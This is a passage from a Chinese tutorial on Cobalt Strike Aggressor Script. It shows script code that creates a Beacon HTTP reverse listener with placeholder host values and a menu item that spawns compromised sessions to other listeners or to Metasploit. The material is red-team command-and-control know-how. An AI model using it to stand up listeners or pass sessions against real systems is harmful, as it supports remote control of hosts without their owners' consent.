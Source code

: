   按照这样的方式，我们使用 cna 配置一个 Beacon HTTP 的监听：

  语法：

  ```shell
  listener_creat_text("创建的名称","选择的payload",%("选择的payload需要填上的参数"));
  ```

  实践

  ```shell
  listener_create_ext("我的HTTP监听","windows/beacon_http/reverse_http",%(host=>"IP或者域名",port=>1080,beacons =>"IP或者域名"));
  printAll(listeners());
  println("创建成功！");
  ```

  由于我的端口被占用，我先删除一下：

  ![image-20201213222945393](/assets/wgpsec/images/Aggressor-Script/image-20201213222945393.png)

  然后运行 cna 并查看：

  ![image-20201213223523971](/assets/wgpsec/images/Aggressor-Script/image-20201213223523971.png)
  ![image-20201213223612288](/assets/wgpsec/images/Aggressor-Script/image-20201213223612288.png)
  成功创建，我们这里的参数并没有全部按照啥要求填满，和我们平时 GUI 创建是一样的。在原文中提到过一个 代理问题 ，这里我没写，因为我感觉用的比较少

* 会话传递 

  在我们日常使用的时候，我们会将会话传递(Spawn)，比如将会话传递到 MSF 中，或者传递 SMB 到其他会话，下面是这个操作的源码：

  ```shell
  item "&Spawn" {
  	openPayloadHelper(lambda({
  		binput($bids, "spawn x86 $1");
  		bspawn($bids, $1, "x86");
  	}, $bids => $1));
  }
  ```

  这里面设计到多个 数据模型 ，我们一个一个的讲解。

  * openpayloadHelper： 打开我们拥有的 Listener 会话框：

  * bspawn：创建新的会话，需要传递一个会话ID
  
```java
    popup beacon_bottom{
    	item("&会话传递",{openPayloadHelper(lambda({
    	bspawn($bid, $1);
  	println("我们传递的监听器是".$1)},# 
        $bid => $1));});
  }
```


​    
当openpayladhelper打开存在的Listener会话时，他需要接受一个值，这个值是选定的监听器，然后这里将这个值传递给bspawn，bsapwn需要接受的第一个值也是选定的监听器（bspawn是生成一个新的会话），所以这里我们的将选择的监听器传递给bspawn就可以传递会话，这个地方的写法是固定的，单独的将openPayloadHelper使用是不可以的，但是baspwn是可以的，当运行上面的内容以后，我们可以查看`$1`的值，你会发现就是我们所选择的监听器：
​    
![image-20201214112030750](/assets/wgpsec/images/Aggressor-Script/image-20201214112030750.png)
​    
![image-20201214112048256](/assets/wgpsec/images/Aggressor-Script/image-20201214112048256.png)
